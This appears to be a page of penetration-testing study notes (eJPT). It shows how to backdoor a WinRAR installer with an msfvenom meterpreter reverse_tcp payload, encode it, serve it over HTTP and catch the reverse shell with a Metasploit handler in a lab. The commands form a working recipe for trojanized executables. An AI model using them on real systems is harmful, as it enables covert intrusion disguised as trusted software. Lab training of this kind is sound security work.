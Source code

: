 ### Injecting Payloads into PEs

🗒️ [Windows **Portable Executable**]() (**PE**) *is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S.*

- Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)

- Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > /home/kali/certs/ejpt/Windows_Payloads/winrar.exe
```

![](.gitbook/assets/image-20230415220833685.png)

```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

- Transfer and run the `winrar.exe` file to the target O.S.
- File description is kept, but not its functionality.

![](.gitbook/assets/image-20230415221016113.png)
